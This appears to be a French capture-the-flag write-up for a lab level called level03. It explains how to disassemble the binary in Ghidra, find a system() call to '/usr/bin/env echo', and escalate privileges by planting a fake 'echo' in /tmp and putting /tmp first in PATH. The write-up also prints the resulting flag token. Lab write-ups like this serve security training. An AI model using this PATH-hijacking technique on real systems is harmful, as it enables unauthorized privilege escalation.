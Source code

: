 
ls -la

nous avons un executable

qui si on le lance nous ecrit exploit me 

donc nous allons l'exploit 

pareil que dans l'exo precedant metter le sur votre linux car nous allons devoir utiliser le logiciel GHIDRA

scp level03 vmuller@192.168.1.21:/home/vmuller

install ghidra si vous ne l'avez pas

lancer le ./ghidraRun

cliquer sur la tete de dragon "CodeBrowser"

une fois fait gliser votre executable a l'interieur 

nous avons du code en asm

on vas desasembler le code pour voir ce quil fait 

pour ca clic droit sur le main: desassemble

nous pouvon voir cette phrase 

"/usr/bin/env echo Exploit me"

et cette phrase juste en dessous

CALL       <EXTERNAL>::system                               undefined system()

ca veux dire que le programme fait un appel systheme a une et fait cette commade : "/usr/bin/env echo Exploit me"

c'est genial ca car ils utilisent le env pour pouvoir utiliser echo 

nous pouvons donc rediriger le env vers une autre commande echo que nous avons coder nous meme 

pour ce faire direction le tmp car c'est le seul endrois ou nous pouvons créer des fichier 

cd /tmp

echo whoami > echo

noublier pas de donner les permition au nouveau echo

pour l'instant nous voulons voir quel drois a le programme level03

changer le PATH

export PATH=/tmp:$PATH

comme ca le path sera toujours accesible mais le /tmp sera priviliger

cd 

./level03

et oh tien il a appartien au groupe flag03

on vas donc ganger notre echo pour lui donner une meilleur commande 

cd /tmp

echo getflag > echo

cd 

./level03

merci pour le token !

Check flag.Here is your token : qi0maab88jeaj46qoumi7maus